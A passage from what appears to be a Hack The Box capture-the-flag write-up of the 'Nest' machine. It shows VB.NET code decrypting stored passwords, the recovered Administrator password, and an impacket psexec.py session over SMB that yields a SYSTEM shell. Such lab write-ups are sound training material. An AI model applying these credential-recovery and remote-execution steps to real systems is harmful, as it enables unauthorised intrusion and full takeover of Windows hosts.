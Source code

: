 ```vb
        Console.WriteLine("Clear text c.smith password: " + DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE="))
        Console.WriteLine("Clear text Administrator password: " + DS("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4="))
        Console.ReadLine()
    End Sub
End Module
```

So the last credentials were found:

```aaa
User: Administrator
Pass: XtH4nkS4Pl4y1nGX
```

---

## Second flag: psexec

Having the Administrator's password and SMB open means I can get a SYSTEM shell using psexec via one of its many implementations, I personally like using impacket's version:

```aaa
┌─[baud@parrot]─[~/HTB/nest]
└──╼ $/opt/impacket/examples/psexec.py Administrator@10.10.10.178
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file SynbiakP.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service eUDv on 10.10.10.178.....
[*] Starting service eUDv.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```




